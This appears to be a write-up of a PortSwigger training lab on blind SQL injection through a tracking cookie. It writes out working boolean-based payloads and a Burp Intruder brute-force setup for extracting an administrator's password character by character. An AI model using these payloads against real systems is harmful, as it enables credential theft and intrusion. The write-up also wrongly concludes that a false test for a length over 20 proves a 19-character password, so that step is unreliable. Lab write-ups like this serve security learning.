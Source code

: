 ## Blind SQL injection with conditional responses

**Title:** Blind SQL injection with conditional responses. [Go](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

**Description:** This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows. The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the `administrator` user.

## Preface

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors. Many techniques such as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses.

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`
When a request containing a `TrackingId` cookie is processed, the application uses a SQL query to determine whether this is a known user:
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application does behave differently depending on whether the query returns any data. If you submit a recognized `TrackingId`, the query returns data and you receive a `Welcome back` message in the response.

This behavior is enough to be able to exploit the blind SQL injection vulnerability. You can retrieve information by triggering different responses conditionally, depending on an injected condition.

To understand how this exploit works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
`…xyz' AND '1'='1` & `…xyz' AND '1'='2`

The first of these values causes the query to return results, because the injected AND `'1'='1` condition is true. As a result, the `Welcome back` message is displayed.
The second value causes the query to not return any results, because the injected condition is false. The `Welcome back` message is not displayed. This allows us to determine the answer to any single injected condition, and extract data one piece at a time.

For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. You can determine the password for this user by sending a series of inputs to test the password one character at a time.

To do this, start with the following input: `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
This returns the `Welcome back` message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.

Next, we send the following input: `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.

Eventually, we send the following input, which returns the `Welcome back` message, thereby confirming that the first character of the password is `s`:
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`

We can continue this process to systematically determine the full password for the `Administrator` user

## Methodology

### Finding the vulnerable parameter
Initially, our foremost objective is to identify a potential vulnerability within the application's parameters that allows for the execution of SQL queries. In the context of this shopping application, we are particularly interested in the `TrackingId` cookie parameter , where the backend logic is designed to query the submitted data.

### My thought

Modify the `TrackingId` cookie, changing it to: `TrackingId=xyz' AND '1'='1`. Verify that the `Welcome back` message appears in the response.

Now change it to: `TrackingId=xyz' AND '1'='2`. Verify that the `Welcome back` message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

![poc_conditional_responses_confirm_02.png](../images/conditional_response_confirm_02.png)

Now change it to: `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`. Verify that the condition is true, confirming that there is a table called `users`.

![poc_confirming_users_table.png](../images/confirming_users_table.png)

Now change it to: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`. Verify that the condition is true, confirming that there is a user called administrator.

![poc_administrator_table.png](../images/administrator_table.png)

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a`. This condition should be false, confirming that the password has 19 characters in length.

![poc_password_length.png](../images/password_length.png)

Now its time to brute force all of these 19 charecters. And for this we will use brup suite's Intruder module. Here, we use cluster bomb option with two payload position. `TrackingId=xyz' AND (SELECT SUBSTRING(password,$payload01$,1) FROM users WHERE username='administrator')='$payload02$`

![poc_clusterbomb01.png](../images/clusterbomb01.png)

For first payload position we have to configure:

![poc_clusterbomb02.png](../images/clusterbomb02.png)

For second payload position we have to configure:

![poc_clusterbomb03.png](../images/clusterbomb03.png)

To be able to tell when the correct character was submitted, you'll need to grep each response for the expression `Welcome back`. To do this, go to the Settings tab, and the `Grep - Match` section. Clear any existing entries in the list, and then add the value `Welcome back`.

![poc_clusterbomb04.png](../images/clusterbomb04.png)

And the final result:

![poc_conditional_responses.png](../images/poc_conditional_responses.png)

**Summary:**

1. Confirming the vulnerability with `TrackingId=xyz' AND '1'='1` & `TrackingId=xyz' AND '1'='2`

2. Verifying `users` table with `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`

3. Confirming `administrator` user with `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`

4. Determining password length with `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a`

5. Brute forcing characters with `TrackingId=xyz' AND (SELECT SUBSTRING(password,$payload01$,1) FROM users WHERE username='administrator')='$payload02$`
